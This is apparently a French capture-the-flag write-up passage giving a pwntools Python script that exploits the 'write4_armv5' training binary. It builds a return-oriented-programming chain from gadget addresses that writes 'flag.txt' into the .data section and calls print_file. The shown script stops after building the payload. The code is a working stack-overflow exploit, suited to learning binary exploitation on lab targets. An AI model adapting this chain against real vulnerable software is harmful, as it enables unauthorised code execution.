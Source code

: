 
## Exploitation


### Le script python

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('write4_armv5')

# 164 : read
# 176 : ret
gs='''
b *pwnme+176
'''

# pop {r3, r4, pc}
g_pop_r3r4 = 0x000105f0

# str r3, [r4] ; pop {r3, r4, pc}
g_str_r3r4 = 0x000105ec

# pop {r0, pc}
g_pop_r0 = 0x000105f4

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])

data = elf.get_section_by_name('.data').header['sh_addr']
print_file = elf.plt['print_file']
main=elf.symbols['main']

log.info(f".data       = 0x{data}")
log.info(f".print_file = 0x{print_file}")

io.recvuntil(b"> ")


offset=0x24

flagfile=b"flag.txt"

PL=b"A"*offset
PL+=p32(g_pop_r3r4)
PL+=flagfile[:4]
PL+=p32(data)
PL+=p32(g_str_r3r4)
PL+=flagfile[4:8]
PL+=p32(data+4)
PL+=p32(g_str_r3r4)
PL+=p32(0)
PL+=p32(0)
PL+=p32(g_pop_r0)
PL+=p32(data)
PL+=p32(print_file)
PL+=p32(main)

```